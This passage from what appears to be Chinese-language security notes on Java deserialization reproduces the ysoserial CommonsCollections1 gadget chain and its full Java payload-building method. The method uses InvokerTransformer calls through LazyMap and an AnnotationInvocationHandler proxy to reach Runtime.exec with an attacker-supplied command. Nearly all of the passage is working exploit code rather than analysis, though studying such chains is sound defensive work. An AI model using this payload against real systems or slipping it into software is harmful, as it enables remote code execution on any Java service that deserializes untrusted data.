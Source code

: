 简单来说就是做一个输入输出转换

#### ysoserial中的gadget和payload
gadget

```
Gadget chain:
    ObjectInputStream.readObject()
        AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

payload

```
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```
